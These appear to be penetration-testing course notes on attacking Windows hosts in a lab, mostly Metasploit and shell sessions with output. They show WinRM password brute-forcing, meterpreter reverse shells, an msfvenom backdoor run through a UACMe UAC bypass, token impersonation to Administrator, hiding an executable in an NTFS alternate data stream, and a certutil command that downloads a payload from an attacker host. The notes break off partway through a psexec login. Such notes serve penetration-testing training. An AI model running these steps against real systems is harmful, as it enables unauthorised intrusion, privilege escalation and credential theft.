- The BlueKeep exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.
  **Note:** Targeting Kernel space memory and applications can cause system crashes

<br />

**detect the bluekeep rdp vulerability**

```bash
msf > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

<br />

**exploit the bluekeep rdp vulerability**

```bash
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

<br />

***

#### Exploiting WinRM    

- Windows Remote Management (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP(S).
- Microsoft implemented WinRM in to Windows in order to make life easier for system administrators but it's not configured as enabled by default .
- WinRM is typically used in the following ways:
  ○ Remotely access and interact with Windows hosts on a local network.
  ○ Remotely access and execute commands on Windows systems.
  ○ Manage and configure Windows systems remotely.
- WinRM typically uses TCP port 5985 and 5986 (HTTPS).
- WinRM implements access control and security for communication between systems through various forms of authentication.
- We can utilize a utility called “crackmapexec” to perform a brute-force on WinRM in order to identify users and their passwords as well as execute
  commands on the target system.
- We can also utilize a ruby script called “evil-winrm” to obtain a command shell session on the target system.


<br />

```bash
root@attackdefense:~# nmap 10.4.19.50 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-15 21:39 IST
Nmap scan report for 10.4.19.50
Host is up (0.0100s latency).
Not shown: 65521 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
47001/tcp open  winrm


root@attackdefense:~# nmap 10.4.19.50 -sV -p5985,47001
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-15 21:41 IST
Nmap scan report for 10.4.19.50
Host is up (0.0100s latency).

PORT      STATE SERVICE VERSION
5985/tcp  open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

```

 winrm server is running on port 5985. By default WinRM service uses port 5985 for HTTP


<br />

**bruteforce winRM credentials using metasploit `scanner/winrm/winrm_login`**

```bash
msf > use scanner/winrm/winrm_login
msf5 auxiliary(scanner/winrm/winrm_login) > set RHOSTS 10.4.19.50
RHOSTS => 10.4.19.50
msf5 auxiliary(scanner/winrm/winrm_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/winrm/winrm_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/winrm/winrm_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/winrm/winrm_login) > run

[+] 10.4.19.50:5985 - Login Successful: WORKSTATION\administrator:tinkerbell
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/winrm/winrm_login) > 

```

<br />

**Checking WinRM supported authentication method using an auxiliary module `auxiliary/scanner/winrm/winrm_auth_methods`**

This is very important to know, before we try to connect to the WinRM service. We need to use a valid authentication method while connecting to the service. You can find more information about the authentication from the below link:
https://docs.microsoft.com/en-us/windows/win32/winrm/authentication-for-remote-connections

```bash
msf5 > use auxiliary/scanner/winrm/winrm_auth_methods
msf5 auxiliary(scanner/winrm/winrm_auth_methods) > 
msf5 auxiliary(scanner/winrm/winrm_auth_methods) > 
msf5 auxiliary(scanner/winrm/winrm_auth_methods) > options

Module options (auxiliary/scanner/winrm/winrm_auth_methods):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   DOMAIN   WORKSTATION      yes       The domain to use for Windows authentification
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    5985             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   THREADS  1                yes       The number of concurrent threads (max one per host)
   URI      /wsman           yes       The URI of the WinRM service
   VHOST                     no        HTTP server virtual host

msf5 auxiliary(scanner/winrm/winrm_auth_methods) > set RHOSTS 10.4.19.50
RHOSTS => 10.4.19.50
msf5 auxiliary(scanner/winrm/winrm_auth_methods) > run

[+] 10.4.19.50:5985: Negotiate protocol supported
[+] 10.4.19.50:5985: Basic protocol supported
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Target supports two authentication types i.e Basic and Negotiate.


<br />

**Execute command on the target server using winrm_cmd module. `auxiliary/scanner/winrm/winrm_cmd`**

```bash
msf5 > use auxiliary/scanner/winrm/winrm_cmd
msf5 auxiliary(scanner/winrm/winrm_cmd) > options

Module options (auxiliary/scanner/winrm/winrm_cmd):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD       ipconfig /all    yes       The windows command to run
   DOMAIN    WORKSTATION      yes       The domain to use for Windows authentification
   PASSWORD                   yes       The password to authenticate with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     5985             yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   THREADS   1                yes       The number of concurrent threads (max one per host)
   URI       /wsman           yes       The URI of the WinRM service
   USERNAME                   yes       The username to authenticate as
   VHOST                      no        HTTP server virtual host

msf5 auxiliary(scanner/winrm/winrm_cmd) > set RHOSTS 10.4.19.50
RHOSTS => 10.4.19.50
msf5 auxiliary(scanner/winrm/winrm_cmd) > set USERNAME administrator
USERNAME => administrator
msf5 auxiliary(scanner/winrm/winrm_cmd) > set PASSWORD tinkerbell
PASSWORD => tinkerbell
msf5 auxiliary(scanner/winrm/winrm_cmd) > set CMD whoami
CMD => whoami
msf5 auxiliary(scanner/winrm/winrm_cmd) > run

[+] 10.4.19.50:5985      : server\administrator

[+] Results saved to /root/.msf4/loot/20240115215534_default_10.4.19.50_winrm.cmd_result_317273.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

<br />

**get the meterpreter shell using metasploit `exploit/windows/winrm/winrm_script_exec`**

```bash
msf5 auxiliary(scanner/winrm/winrm_cmd) > use exploit/windows/winrm/winrm_script_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/winrm/winrm_script_exec) > options

Module options (exploit/windows/winrm/winrm_script_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DOMAIN     WORKSTATION      yes       The domain to use for Windows authentification
   FORCE_VBS  false            yes       Force the module to use the VBS CmdStager
   PASSWORD                    yes       A specific password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      5985             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URI        /wsman           yes       The URI of the WinRM service
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    yes       A specific username to authenticate as
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.23.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf5 exploit(windows/winrm/winrm_script_exec) > set RHOSTS 10.4.19.50
RHOSTS => 10.4.19.50
msf5 exploit(windows/winrm/winrm_script_exec) > set USERNAME administrator
USERNAME => administrator
msf5 exploit(windows/winrm/winrm_script_exec) > set PASSWORD tinkerbell
PASSWORD => tinkerbell
msf5 exploit(windows/winrm/winrm_script_exec) > set FORCE_VBS true
FORCE_VBS => true
msf5 exploit(windows/winrm/winrm_script_exec) > run

[*] Started reverse TCP handler on 10.10.23.3:4444 
[*] User selected the FORCE_VBS option
[*] Sending stage (176195 bytes) to 10.4.19.50
[*] Meterpreter session 1 opened (10.10.23.3:4444 -> 10.4.19.50:49897) at 2024-01-15 22:01:46 +0530
[*] Session ID 1 (10.10.23.3:4444 -> 10.4.19.50:49897) processing InitialAutoRunScript 'post/windows/manage/priv_migrate'
[*] Current session process is knbph.exe (4800) as: SERVER\Administrator
[*] Session is Admin but not System.
[*] Will attempt to migrate to specified System level process.
[-] Could not migrate to services.exe.
[-] Could not migrate to wininit.exe.
[*] Trying svchost.exe (892)
[+] Successfully migrated to svchost.exe (892) as: NT AUTHORITY\SYSTEM
[*] nil
[*] Command Stager progress - 100.00% done (101936/101936 bytes)

meterpreter > pwd
C:\Windows\system32
```

<br />

**bruteforce winRM credentials using crackmapexec**

```bash
root@attackdefense:~# crackmapexec winrm 10.4.19.50 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing SMB protocol database
[*] Initializing MSSQL protocol database
[*] Initializing WINRM protocol database
[*] Initializing SSH protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
WINRM       10.4.19.50      5985   NONE             [*] http://10.4.19.50:5985/wsman
WINRM       10.4.19.50      5985   NONE             [-] None\administrator:admin "Failed to authenticate the user administrator with ntlm"

WINRM       10.4.19.50      5985   NONE             [+] None\administrator:tinkerbell (Pwn3d!)

```

<br />

**execute commands with winRM credentials using crackmapexec**

```bash
root@attackdefense:~# crackmapexec winrm 10.4.19.50 -u administrator -p tinkerbell -x whoami
WINRM       10.4.19.50      5985   NONE             [*] http://10.4.19.50:5985/wsman
WINRM       10.4.19.50      5985   NONE             [+] None\administrator:tinkerbell (Pwn3d!)
WINRM       10.4.19.50      5985   NONE             [+] Executed command
WINRM       10.4.19.50      5985   NONE             server\administrator

```

<br />

**get cmd shell with `evil-winrm.rb` with winRM credentials**

```bash
root@attackdefense:~# evil-winrm.rb -u administrator -p tinkerbell -i 10.4.19.50 
Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
server\administrator

```

<br />

---

### Windows Privilege Escalation

#### Privilege Escalation

- Privilege escalation is the process of exploiting vulnerabilities or misconfigurations in systems to elevate privileges from one user to another, typically to a user with administrative or root access on a system.
- Privilege escalation is a vital element of the attack life cycle and is a major determinant in the overall success of a penetration test.
- After gaining an initial foothold on a target system you will be required to elevate your privileges in order to perform tasks and functionality that require administrative privileges.
- The importance of privilege escalation in the penetration testing process cannot be overstated or overlooked. Developing your privilege escalation skills will mark you out as a good penetration tester.

<br />

#### Windows Kernel

- A Kernel is a computer program that is the core of an operating system and has complete control over every resource and hardware on a system. It acts as a translation layer between hardware and software and facilitates the communication between these two layers.
- Windows NT is the kernel that comes pre-packaged with all versions of Microsoft Windows and operates as a traditional kernel with a few exceptions based on user design philosophy. It consists of two main modes of operation that determine access to system resources and hardware:
  - User Mode – Programs and services running in user mode have limited access to system resources and functionality.
  - Kernel Mode – Kernel mode has unrestricted access to system resources and functionality with the added functionality of managing devices and system memory.

<br />

#### Windows Kernel Exploitation

- Kernel exploits on Windows will typically target vulnerabilities In the Windows kernel to execute arbitrary code in order to run privileged system
  commands or to obtain a system shell.

- This process will differ based on the version of Windows being targeted and the kernel exploit being used.

- Privilege escalation on Windows systems will typically follow the following methodology:

  - Identifying kernel vulnerabilities

  + Downloading, compiling and transferring kernel exploits onto the target system.

<br />

#### Tools & Environment
- Windows-Exploit-Suggester - This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins.
  - GitHub: https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- Windows-Kernel-Exploits - Collection of Windows Kernel exploits sorted by CVE.
  + GitHub: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135
    


```
session 3 
getuid
getprivs
getsystem

local_exploit_suggester post module
set session
run

https://github.com/AonCyberLabs/Windows-Exploit-Suggester
./Windows-Exploit-Suggester.py --update
perform systeminfo on the target machine and copy the output in a file
./Windows-Exploit-Suggester.py --database 212121.xls --systeminfo sysinfo.txt
```


<br />

---

#### UAC (User Account Control)


- User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
- UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.
- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt, whereas a privileged user will be prompted with a consent prompt.
- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

<br />

#### Bypassing UAC With UACMe    

- In order to successfully bypass UAC, we will need to have access to a user account that is a part of the `local administrators group` on the Windows target system.
- UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.
- UAC has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation.
- There are multiple tools and techniques that can be used to bypass UAC, however, the tool and technique used will depend on the version of Windows running on the target system.
- UACMe is an open source, robust privilege escalation tool developed by @hfire0x. It can be used to bypass Windows UAC by leveraging various techniques.
  - GitHub: https://github.com/hfiref0x/UACME
- The UACME GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.
- It allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AutoElevate tool.
- The UACMe GitHub repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target

<br />

i have a session with user `admin` who is a member of `administrators` group  

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > sessions 

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x86/windows  VICTIM\admin @ VICTIM  10.10.22.2:4444 -> 10.4.23.226:49387 (10.4.23.226)

msf6 exploit(windows/http/rejetto_hfs_exec) > sessions 1
[*] Starting interaction with 1...

======================================================
migrate from x86 meterpreter to x64 meterpreter
======================================================
meterpreter > sysinfo 
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > pgrep explorer
2956
meterpreter > migrate 2956
[*] Migrating from 1816 to 2956...
[*] Migration completed successfully.
meterpreter > sysinfo 
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows

meterpreter > getuid 
Server username: VICTIM\admin

meterpreter > shell
Process 992 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>net users
net users

User accounts for \\VICTIM

-------------------------------------------------------------------------------
admin                    Administrator            Guest                    
The command completed successfully.


C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>whoami
whoami
victim\admin

======================================================
the user "admin" is one of local administrators group
======================================================
C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
admin
Administrator
The command completed successfully.


C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>


```

this user can execute commands and programs with elevated privileges  but in order to do that you will need to bypass UAC

<br />

**get privileges of the current user **

```bash
meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

<br />

**Trying to change the password of `admin` user**

the command is denied because of the UAC

```
C:\Windows\system32>net user admin password123
net user admin password123
System error 5 has occurred.

Access is denied.

```

<br />

```bash

======================================================
create msfvenom payload
======================================================
root@attackdefense:~/Desktop/tools/UACME# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.80.2 LPORT=1234 -f exe > backdoor.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes


======================================================
set the listener
======================================================
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.80.2
LHOST => 10.10.80.2
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.80.2:1234 


================================================================================================================================
run Akagi64.exe with key 23 on the current msf session to bypass UAC and run the backdoor with administrative privillages
================================================================================================================================
meterpreter > mkdir Temp
Creating directory: Temp
meterpreter > cd Temp 
meterpreter > upload Desktop/tools/UACME/backdoor.exe
[*] uploading  : /root/Desktop/tools/UACME/backdoor.exe -> backdoor.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /root/Desktop/tools/UACME/backdoor.exe -> backdoor.exe
[*] uploaded   : /root/Desktop/tools/UACME/backdoor.exe -> backdoor.exe
meterpreter > upload Desktop/tools/UACME/Akagi64.exe
[*] uploading  : /root/Desktop/tools/UACME/Akagi64.exe -> Akagi64.exe
[*] Uploaded 194.50 KiB of 194.50 KiB (100.0%): /root/Desktop/tools/UACME/Akagi64.exe -> Akagi64.exe
[*] uploaded   : /root/Desktop/tools/UACME/Akagi64.exe -> Akagi64.exe

meterpreter > shell
Process 2404 created.
Channel 4 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Temp>dir 	
dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of C:\Temp

01/17/2024  05:52 PM    <DIR>          .
01/17/2024  05:52 PM    <DIR>          ..
01/17/2024  05:52 PM           199,168 Akagi64.exe
01/17/2024  05:52 PM            73,802 backdoor.exe
               2 File(s)        272,970 bytes
               2 Dir(s)   8,285,016,064 bytes free

C:\Temp>.\Akagi64.exe 23 C:\Temp\backdoor.exe
.\Akagi64.exe 23 C:\Temp\backdoor.exe

C:\Temp>


================================================================================================================================
we got a new meterpreter session with elevated privillages 
================================================================================================================================
[*] Started reverse TCP handler on 10.10.80.2:1234 
[*] Sending stage (175174 bytes) to 10.4.20.207
[*] Meterpreter session 1 opened (10.10.80.2:1234 -> 10.4.20.207:49402) at 2024-01-17 23:37:55 +0530

meterpreter > sysinfo
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: VICTIM\admin
meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

```

<br />

now we can migrate to any process that has `NT AUTHORITY\SYSTEM ` privillage

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 156   3036  backdoor.exe          x86   1        VICTIM\admin                  C:\Temp\backdoor.exe
 364   4     smss.exe              x64   0                                      
 468   676   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 676   592   services.exe          x64   0                                      
 684   592   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe

meterpreter > sysinfo 
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > migrate 684
[*] Migrating from 156 to 684...
[*] Migration completed successfully.
meterpreter > sysinfo 
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM

```

<br />

---

#### Access Token Impersonation

**Windows Access Tokens**

- Windows access tokens are a core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).
- A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system. Simply put, an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is accessed.
- Access tokens are generated by the winlogon.exe process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process. This token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.
- Windows access tokens are categorized based on the varying security levels assigned to them. These security levels are used to determine the privileges that are assigned to a specific token.
- An access token will typically be assigned one of the following security levels:
  - **Impersonate-level tokens** are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons.
  - **Delegate-level tokens** are typically created through an interactive login on Windows, primarily through a traditional login or through remote access protocols such as RDP.
- **Impersonate-level tokens** can be used to impersonate a token on the local system and not on any external systems that utilize the token.
- **Delegate-level tokens** pose the largest threat as they can be used to impersonate tokens on any system.


<br />

**Windows Privileges**

- The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens available.
- The following are the privileges that are required for a successful impersonation attack:
  - **SeAssignPrimaryToken:** This allows a user to impersonate tokens.
  - **SeCreateToken:** This allows a user to create an arbitrary token with administrative privileges.
  - **SeImpersonatePrivilege:** This allows a user to create a process under the security context of another user typically with administrative privileges

<br />

**The Incognito Module**

Incognito is a built-in meterpreter module that was originally a standalone application that allows you to impersonate user tokens after successful
exploitation.

- We can use the incognito module to display a list of available tokens that we can impersonate.


<br />

```bash
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege			<<<<<<<<<<==============
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeSystemtimePrivilege
SeTimeZonePrivilege

meterpreter > 

```

`LOCAL SERVICE` is an unprivileged account by default.

after running `getprivs` we found that  `SeImpersonatePrivilege` is exist, so we can impersonate access tokens available using `Incognito module`


**Load incognito plugin and check all available tokens.**

```bash
meterpreter > load incognito 
Loading extension incognito...Success.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE

Impersonation Tokens Available
========================================
No tokens available


```

we have the administrator account access token which will provide us with elevated privileges  


 **impersonate administrator account access token**

```bash
meterpreter > impersonate_token "ATTACKDEFENSE\Administrator"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user ATTACKDEFENSE\Administrator

meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator

meterpreter > getprivs 
[-] stdapi_sys_config_getprivs: Operation failed: Access is denied.
meterpreter > pgrep explorer
3460

meterpreter > migrate 3460
[*] Migrating from 3756 to 3460...
[*] Migration completed successfully.

meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege


```


---

### Windows File System Vulnerabilities

#### Alternate Data Streams

- Alternate Data Streams (ADS) is an NTFS (New Technology File System) file attribute and was designed to provide compatibility with the MacOS HFS (Hierarchical File System).
- Any file created on an NTFS formatted drive will have two different forks/streams:
  - Data stream - Default stream that contains the data of the file.
  - Resource stream - Typically contains the metadata of the file.
- Attackers can use ADS to hide malicious code or executables in legitimate files in order to evade detection.
- This can be done by storing the malicious code or executables in the file attribute resource stream (metadata) of a legitimate file.
- This technique is usually used to evade basic signature based AVs and static scanning
  tools.

**the data stream**


**the resource stream (metadata)**


access the hidden file


```bash
cmd >dir /r

01/20/2024  11:09 PM    <DIR>          .
01/20/2024  11:09 PM    <DIR>          ..
01/20/2024  11:06 PM                12 hello.txt
                                    11 hello.txt:hidden.txt:$DATA
               1 File(s)             12 bytes
               2 Dir(s)  146,176,573,440 bytes free

```


**hide exe payload in text file**

```cmd
C:\Temp >type payload.exe > windowslogs.txt:winpeas.exe
```


**Create symbolic link and execute the exe file **

windows update (wupdate) is just a symbolic link for the exe file we want to run.

open cmd as an administrator

```cmd
C:\Windows\System32 > mklink wupdate.exe C:\Temp\windowslogs.txt:winpeas.exe

execute the symlink
C:\Windows\System32 > wupdate
```


---

### Windows Credential Dumping

#### Windows Password Hashes    

- The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.

- Hashing is the process of converting a piece of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is known as a hash or hash value.

- Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA).

- Windows versions up to Windows Server 2003 utilize two different types of hashes:

  + LM

  + NTLM • Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onwards


**SAM Database**

- SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed.
- The SAM database file cannot be copied while the operating system is running.
- The Windows NT kernel keeps the SAM database file locked and as a result, attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.
- In modern versions of Windows, the SAM database is encrypted with a syskey.
  **Note:** Elevated/Administrative privileges are required in order to access and interact with the LSASS process.


**LM (LanMan)**

- LM is the default hashing algorithm that was implemented in Windows operating systems prior to NT4.0.
- The protocol is used to hash user passwords, and the hashing process can be
  broken down into the following steps:
  - The password is broken into two seven-character chunks.
  - All characters are then converted into uppercase.
  - Each chunk is then hashed separately with the DES algorithm.
- LM hashing is generally considered to be a weak protocol and can easily be cracked, primarily because the password hash does not include salts,
  consequently making brute-force and rainbow table attacks effective against LM hashes.


**NTLM (NTHash)**

- NTLM is a collection of authentication protocols that are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.
- From Windows Vista onwards, Windows disables LM hashing and utilizes NTLM hashing.
- When a user account is created, it is encrypted using the MD4 hashing algorithm, while the original password is disposed of.
- NTLM improves upon LM in the following ways:
  + Does not split the hash in to two chunks.
  + Case sensitive.
  + Allows the use of symbols and unicode characters.


---

#### Searching For Passwords In Windows Configuration Files

**Windows Configuration Files**

- Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.
- This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on systems.
- This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account’s password.
- If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately.


**Unattended Windows Setup**

- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration
  information:
  - C:\Windows\Panther\Unattend.xml
  - C:\Windows\Panther\Autounattend.xml
- As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.


**to list current user privileges** 

```cmd
C:\Windows\Panther> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


```


**download the payload from the python http server with `certutil` and name it `payload.exe`** 

```cmd
C:\Windows\Panther> certutil -urlcache -f http://10.10.4.3:80/payload.exe payload.exe
```

get meterpreter session with unprivileged user and open `C:\Windows\Panther\Unattend.xml`

 


get shell with administrator account

```cmd
root@attackdefense:~# psexec.py administrator@10.4.24.224
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.4.24.224.....
[*] Found writable share ADMIN$
